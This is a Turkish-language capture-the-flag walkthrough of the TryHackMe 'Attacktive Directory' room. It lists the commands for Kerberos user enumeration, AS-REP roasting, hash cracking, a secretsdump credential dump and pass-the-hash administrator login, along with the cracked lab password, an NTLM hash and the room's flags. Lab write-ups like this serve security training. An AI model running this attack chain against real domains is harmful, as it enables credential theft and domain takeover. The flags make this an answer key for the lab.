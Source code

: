 ## **TryHackMe : ATTACKTIVE DIRECTORY YOL HARITASI** 
![](https://tryhackme.com/room/attacktivedirectory)
THM'den (TryHackMe'den) oğrendiğim bilgileri unutmamak için bir yol haritası oluşturuyorum. Bu yol haritasını izlemeden önce kerbrute programını bilgisayarınıza indiriniz. [Buradan wget kullanarak bilgisayarınıza indirebilirsiniz](https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64) Vakit kaybetmeden başlayalım:

### *Adım 1:*
İlk olarak kali'mizi acalım ve THM'den daha once indirmis oldugumuz vpn'i asagidaki komutla çalistiralim:
`openvpn <vpnismi>.ovpn`
THM'nin makinesini başlatalım.
### *Adım2:*
İmpacket kurulumu için aşağıdaki komutları sırasıyla terminalde çalıştıralım:

`git clone https://github.com/SecureAuthCorp/impacket.git`

`/opt/impacket`

`pip3 install -r /opt/impacket/requirements.txt`

`cd /opt/impacket/ && python3 ./setup.py install`
### *Adım3:*
Temel port taraması ve numaralandırma işlemi için nmap kullanarak başlayacağız. Sonrasında farklı numaralandırma işlemleri için farklı programları kullanacağız. Tüm bu işlemleri yapmadan önce elde ettiğimiz bilgileri kaydetmek için not.txt dosyasını açalım ve nmap taramasını yapalım:

`nmap -v -sS -A -O -T4 <Hedef IP>`

![](https://github.com/hamza37yavuz/AttacktiveD-rectory-YolHaritas-/blob/main/nmap.png)

THM'deki soruların cevaplarını not.txt dosyasını inceleyerek bulabilirsiniz.

139 ve 445 numaralı bağlantı noktaları SMB tarafından kullanılır. SMB'yi numaralandırmak için enum4linux'u kullanacağız.

`enum4linux <hedef ip> -a spookysec.local`

![](https://github.com/hamza37yavuz/AttacktiveD-rectory-YolHaritas-/blob/main/enum4linux.png)

Yukarıdaki resimde kullanıcı grupları listelenmiştir yine bu kullanıcı grupları not.txt'dosyasına kaydedilmiştir.

### *Adım 5:*

Kerberos da dahil olmak üzere bir dizi başka hizmet çalışıyor . Kerberos, Active Directory içindeki bir anahtar kimlik doğrulama hizmetidir. Bu bağlantı noktası açıkken, kullanıcıların parolalarını ve hatta parola spreyini kaba kuvvetle keşfi mümkündür. Bunun için Kerbrute (Ronnie Flathers @ropnop tarafından oluşturulan) adlı bir araç kullanabiliriz !

Bu sistem için hazırlanmış kullanıcı listesi ve parola listesi, kullanıcıların numaralandırılması ve parola kırma süresini kısaltmak için kullanılacaktır. Bu listeleri `wget` kullanarak bilgisayarımıza indirebiliriz.

>[THM'nin kullanıcı listesi](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt)

>[THM'nin şifre listesi](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt)

Kerbrute kullanarak kullanıcı adlarını almak için `userenum` komutunu kullanacağız. Kullanımın nasıl olduğu farklı şekillerde nasıl kullanılabileceğini anlamak için doğru dosya dizinine giderek `./kerbrute -h` komutunu çalıştırabilirsiniz. Kullanıcıları görmek için aşağıdaki komutu terminalimizde çalıştıracağız.

`./kerbrute userenum userlist.txt --dc <hedef ip> -d spookysec.local`

![alt text](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/kerbrute.png)
### *Adım 5:*
Kullanıcı hesaplarının numaralandırılması tamamlandıktan sonra, ASREPRoasting adlı bir saldırı yöntemi ile Kerberos içindeki bir özelliği kötüye kullanmaya çalışabiliriz. ASReproasting saldırısı bir kullanıcı hesabı "Ön Kimlik Doğrulaması Gerektirmez" ayrıcalığına sahip olduğunda gerçekleşir. Bu, hesabın belirtilen kullanıcı hesabından bir kerberos bileti talep etmeden önce geçerli bir kimlik sağlaması gerekmediği anlamına gelir.
Impacket , ASReproastable hesaplarını Anahtar Dağıtım Merkezinden sorgulamamıza izin verecek “GetNPUsers.py” adlı bir araca sahiptir (impacket/examples/GetNPUsers.py konumunda bulunur). Hesapları sorgulamak için gerekli olan tek şey, daha önce Kerbrute aracılığıyla sıraladığımız hesaplar arasından bir hesap seçmek ve bilet almak için deneme yapmaktır. 4. Adımda elde ettiğimiz listedeki kullanıcı adlarını burada kullanacağız.
Bunun için ilk olarak `/opt/impacket/examples` dizinine gitmeliyiz. Bu işlemi yaptıktan sonra getNPUsers.py dosyasını aşağıdaki gibi çalıştırarak şifre hash'ini (bileti) almaya çalışacağız.

`python GetNPUsers.py -dc-ip <hedef ip> spookysec.local/<kullanıcı adı> -no-pass` --> kullanıcı adı yerine svc-admin yazılabilir

![](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/GetNPUsers.png)

hash'i elde ettik ve not.txt dosyasına kaydettik. Bu hash svc-admin kullanıcısının şifresinin hash'idir. Bu hash'i çözmek için hashcat programını kullanacağız. Hashcat programını çalıştırmak için mod değerine ihtiyacımız var bu mod değerini elde etmek için [bu siteye bakabilirsiniz.](https://hashcat.net/wiki/doku.php?id=example_hashes)
hashcat komutunu çalıştırmak için elde ettiğimiz hash'i bir txt'ye yapıştırmıştık. Aşağıdaki şekilde yazarak şifreyi elde edebiliriz.

`hashcat -m 18200 hashCode.txt passwordlist.txt`

![](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/hashcat.jpeg)

Bunun sonucunda svc-admin'in parolası management2005 olarak bulmuş oluyoruz.

### *Adım 6:*
Bir kullanıcının hesap kimlik bilgileriyle artık etki alanı içinde önemli ölçüde daha fazla erişime sahibiz. Artık paylaşımları numaralandırma konusunda daha derinlere inebiliriz.
Uzak SMB paylaşımlarını eşlemek için hangi smbclient programını kullanabiliriz. Bu program yardımıylauzak paylaşımları bulacağız ve listeleyeceğiz. Aşağıdaki komutu çalıştırarak listeyi görüntüleyelim.

`smbclient -L <hedef ip> -U svc-admin`

![](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/smbclient.png)

backup paylaşımına svc-admin olarak erişmek için aşağıdaki komutu çalıştırabiliriz:

`smbclient \\\\<hedef ip>\\backup -U svc-admin`

![](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/backup.png)

burada bulduğumuz şifrelenmiş bir parola olabileceğini düşünüyoruz. Şifrelenme tekniğine dikkatli bakıldığında base64'e benzediği görülebilir. bu şifrelenmiş parolayı çözmek için [bu linkten yararlanıyoruz.](https://www.base64decode.org/) Bulduğumuz parolayı ve şifrelenmiş halini not.txt dosyamıza kaydediyoruz.
### *Adım 7:*
Artık yeni kullanıcı hesabı kimlik bilgilerimiz olduğuna göre, sistemde eskisinden daha fazla ayrıcalığa sahip olabiliriz. Hesabın kullanıcı adı “backup” yani yedekleme bizi düşündürüyor.

Bu hesap Domain Denetleyicisi için bir yedek hesaptır. Bu hesabın tüm Active Directory değişikliklerinin bu kullanıcı hesabıyla eşitlenmesine izin veren benzersiz bir izni vardır. Buna parola hash'leri de dahildir.

Bunu bilerek, Impacket içinde “secretsdump.py” adlı başka bir araç kullanabiliriz. Bu, bu kullanıcı hesabının (backup) sunduğu tüm parola hash'lerini almamıza izin verecektir. Bunu kullanarak, Active Directory Domain Alanı üzerinde etkin bir şekilde tam kontrole sahip olacağız.

Bu dosya benim bilgisayarımda `/usr/share/doc/python3-impacket/examples` dizininde bulunuyor. Şu komutla diğer parola hash'lerine ulaşabiliriz.

`python secretsdump.py -just-dc backup@10.10.36.93`

![](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/secretsdump.png)

Sonuçları not.txt dosyama kaydediyoruz ve bu hash'lerden admine ait olanı kullanarak admin kullanıcı hesabına nasıl gireceğimizi düşünüyoruz.

Admin kullanıcısının NTLM hash'i 0e0363213e37b94221497260b0bcb4fc olarak buluyoruz. Her iki nokta arası başka bir hash'i ifade ettiğini [bu linkten bakarak öğrenebilirsiniz.](https://security.stackexchange.com/questions/161889/understanding-windows-local-password-hashes-ntlm)
### *Adım 8:*
Hash yardımıyla admin girişi yapabilmek için evil-winrm programını kullanacağız. Bu programı aşağıdaki komutla indirebiliriz:

`apt install evil-winrm`

İndirdikten sonra şu komutu çalıştırarak admin paneline bağlanabiliriz.

`evil-winrm -i 10.10.36.93 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`

![](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/admin.png)

Burada ilk ve en önemli bayrağımızı bulmuş olduk (Admin)-> `TryHackMe{4ctiveD1rectoryM4st3r}`
Bunu da not.txt dosyamız not alıyoruz ve admin panelinden diğer kullanıcılara erişerek onların içerisindeki bayrakları bulmaya devam ediyoruz.

 `(svc-admin)->TryHackMe{K3rb3r0s_Pr3_4uth}`
 
 `(backup)->TryHackMe{B4ckM3UpSc0tty!}`
 
 Bu şekilde tüm bayrakları bulduk ve görevi bitirdik.
 
 Okuduğunuz için teşekkürler :) 
